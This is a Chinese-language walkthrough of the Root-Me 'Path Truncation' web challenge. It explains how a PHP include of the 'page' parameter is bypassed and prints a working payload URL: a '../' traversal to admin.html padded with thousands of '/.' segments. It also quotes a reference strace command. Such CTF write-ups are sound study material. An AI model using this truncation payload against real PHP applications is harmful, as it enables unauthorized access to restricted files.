

Root-Me [Path Truncation](https://www.root-me.org/en/Challenges/Web-Server/Path-Truncation)
===

簡單的頁面，但有兩個籤頁 `Home`、`Administration`。(?

## 解題關鍵
1. Path Truncation
2. PHP

## 提示訊息
```
Retrieve an access to the administration’s zone.
```

## 解題方法
在更換籤頁時，可以確認除了 `Administration` 頁面，有權限讀取的頁面僅有 `Home`，並且該頁面的運作方式為 `GET ?page=home`，所以光想就知道應該又是 `include(${input} . php)` 之類的題型，但該題的題目是 `Path Truncation`，直接想說試試看 `%00`，卻出現 `Attack Detected`。  

接著試著看 Rootme 其他參與者提供的[文件](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html)，其中看到很關鍵的一行，如下。

```SHELL
$ strace -e open php -r 'include("a/../../../../tmp/teest".str_repeat("/.", 2027)."/.append.inc");' 2>&1 | grep "^open(\"/tmp"
open("/tmp/teest", O_RDONLY)            = 3
(it works, bingo!)
```

其中可以看到 `str_repeat("/.", 2027)`，由於 `/.` 實際上就是指當前目錄，執行起來並沒有意義，扣除掉 `/.` 的部分指向的檔案是 `a/../../../../tmp/teest`，也許透過塞大量的 `/.` 可以讓暫存爆炸之類的，然後截斷後方的 `.append.inc`，所以嘗試製造 Payload。  

首先輸入大概分成三個部分 `a`、`Target`、`Buffer`，a 填什麼都無所謂，隨後會被 Target 的 `../` 帶到上層目錄，而 `Buffer` 簡單的說就是主題的 `Truncation`，作為截斷的部分。  

嘗試構造成 `a/../admin.html` + `/.` * 2027，其實若問我為什麼是 2027，我答不出來...，只是參考文件上的方法。  

```
http://challenge01.root-me.org/web-serveur/ch35/index.php?page=a/../admin.html/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././.
```

解決該題。  

  

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html  


## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)